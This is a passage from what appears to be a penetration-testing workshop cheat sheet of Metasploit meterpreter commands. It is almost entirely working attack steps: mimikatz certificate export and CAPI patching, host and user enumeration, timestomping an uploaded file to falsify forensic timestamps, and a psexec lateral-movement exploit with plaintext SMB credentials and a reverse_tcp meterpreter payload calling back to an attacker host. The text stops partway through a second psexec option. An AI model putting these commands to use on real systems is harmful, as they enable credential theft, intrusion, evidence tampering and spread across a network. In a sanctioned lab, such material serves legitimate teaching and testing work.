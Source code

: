 meterpreter > mimikatz_command -f crypto::listStores
 
meterpreter > mimikatz_command -f crypto::listCertificates
 
meterpreter > mimikatz_command -f crypto::exportCertificates CERT_SYSTEM_STORE_CURRENT_USER
 
meterpreter > mimikatz_command -f crypto::patchcapi
 
meterpreter> search -d <directory> -f <file-pattern>
 
 
********************************** Enumerate the host you are on **********************************
 
meterpreter > run getcountermeasure
 
meterpreter> run winenum
 
meterpreter > run post/windows/gather/enum_applications
 
meterpreter > run post/windows/gather/enum_logged_on_users
 
meterpreter > run post/windows/gather/usb_history
 
meterpreter > run post/windows/gather/enum_shares
 
meterpreter > run post/windows/gather/enum_snmp
 
meterpreter> reg enumkey -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
 
 
********************************** Prove access **********************************
 
meterpreter> upload /home/strategicsec/j0e-r0x.txt c:\\
 
meterpreter > timestomp C:\\j0e-r0x.txt -v
 
meterpreter > timestomp C:\\j0e-r0x.txt -m "12/12/2016 12:12:12"
 
meterpreter > timestomp C:\\j0e-r0x.txt -v


********************************** Lateral Movement *******************************
 
 
Now we can run the PSEXEC exploit.
-- Option 1:
use exploit/windows/smb/psexec
 
set SMBUser Workshop
 
set SMBPass password
 
set RHOST 192.168.10.129
 
set payload windows/meterpreter/reverse_tcp
 
set LHOST 192.168.10.128
 
set LPORT 2345
 
exploit
 
 
 
 
-- Option 2:
use exploit/windows/smb/psexec
 